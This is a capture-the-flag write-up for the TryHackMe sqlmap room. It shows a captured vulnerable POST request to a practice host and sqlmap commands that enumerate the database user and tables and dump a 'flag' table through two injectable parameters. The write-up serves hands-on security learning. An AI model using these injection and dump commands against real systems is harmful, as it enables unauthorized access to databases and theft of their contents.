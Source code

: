 # sqlmap

{% embed url="https://tryhackme.com/room/sqlmap" %}

Upon visiting the webpage, I was greeted with a plain page without any useful external links or information.

### Finding the first directory

...

### SQL Injection with `sqlmap`

I have found 2 requests within the application that are vulnerable to an SQL injection attack:

1. **`POST /blood/nl-search.php`**

```http
POST /blood/nl-search.php HTTP/1.1
Host: 10.10.244.206
Content-Length: 16
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.10.244.206
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.244.206/blood/
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=pdgklb30hibf0kp13ldkn888l0
Connection: keep-alive

blood_group=A%2B
```

```
$ sqlmap -r req.txt -p blood_group --current-user
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

```bash
$ sqlmap -r req.txt -p blood_group -D blood --tables
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

```bash
$ sqlmap -r req.txt -p blood_group -D blood -T flag --dump
```



<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>



2. `GET blood/view.php?id=1`&#x20;

The outputs are the same for each options as the ones above respectively.&#x20;

```bash
$ sqlmap http://10.10.181.14/blood/view.php?id=1 --current-user
```

```bash
$ sqlmap http://10.10.181.14/blood/view.php?id=1 -D blood --tables
```

```bash
$ sqlmap http://10.10.181.14/blood/view.php?id=1 -D blood -T flag --dump
```
